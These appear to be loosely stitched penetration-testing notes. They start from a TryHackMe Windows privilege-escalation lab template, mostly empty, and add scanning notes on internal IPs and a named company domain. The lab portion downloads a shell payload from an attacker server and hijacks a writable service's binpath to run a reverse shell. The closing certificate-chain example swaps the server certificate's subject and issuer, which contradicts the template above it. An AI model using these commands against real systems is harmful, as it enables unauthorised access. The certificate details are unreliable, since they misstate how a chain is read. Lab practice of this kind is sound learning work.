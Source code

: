 # 1. TEST SETUP/ENVIRONMENT

## TRYHACKME
```
https://tryhackme.com/room/windows10privesc
```


## FILE TRANSFER - WEB BASED
```
cd /var/www/html/priv_esc
python3 -m http.server
wget http://10.18.5.137:8000/shell.elf
```

## FILE TRANSFER - SMB BASED



# 2. MANUAL ENUMERATION 

## USERS
```

```

## HOSTNAME
```
hostname
```

## OS VERSION & ARCHITECTURE
```

```

## RUNNING PROCESS & SERVICES
```

```

## NETWORK INFORMATION 
```

```

## FIREWALL STATUS AND RULES
```

```

## SCHEDULED TASKS
```

```

## INSTALLED APPS & PATCH LEVELS
```

```

## READABLE/WRITABLE FILES AND DIRECTORIES
```

```

## UNMOUNTED DISKS
```

```

## DEVICE DRIVERS AND KERNEL MODULES
```

```

## BINARIES THAT AUTO ELEVATE
```

```

# 3. AUTOMATED ENUMERATION 

## WINPEAS
```

```




# 4. MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 

## CATEGORY "SERVICES" - INSECURE SERVICE PERMISSIONS
```
.\winPEASany.exe servicesinfo (powershell)
winPEASany.exe servicesinfo (cmd)

accesschk.exe /accepteula -uwcqv user daclsvc
sc qc daclsvc
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
sc qc daclsvc
sc start daclsvc
```




zenmap
Kali Linux
vmware player
Kali Linux 
nessus
burpsuite
lightsoot
greenshot
7-zip
notepad++
visul studio code
wireshark

sslscan 172.16.3.17:3389

SMB Signing not required
enum4linux -a 172.16.3.13   

postgres pentest
openvpn server 1194 pentest

SSL CERTIFICATE CANNOT BE TRUSTED
https://shagihan.medium.com/what-is-certificate-chain-and-how-to-verify-them-be429a030887

└─$ curl -I https://shhq.datalines.com.sg/index.jsp



Root CA
Subject: name of the root CA
Issuer: name of the root CA


Intermediate CA
Subject: Name of the intermediate CA
Issuer: Name of the root CA


Server Certificate
Subject: Name of the certificate CA
Issuer: Name of the intermediate CA




USERTrust RSA Certification Authority
Sectigo RSA Domain Validation Secure Server CA
*.datalines.com.sg



Root CA
Subject: USERTrust RSA Certification Authority
Issuer: USERTrust RSA Certification Authority


Intermediate CA
Subject: Sectigo RSA Domain Validation Secure Server CA
Issuer: USERTrust RSA Certification Authority


Server Certificate
Subject: Sectigo RSA Domain Validation Secure Server CA
Issuer: *.datalines.com.sg





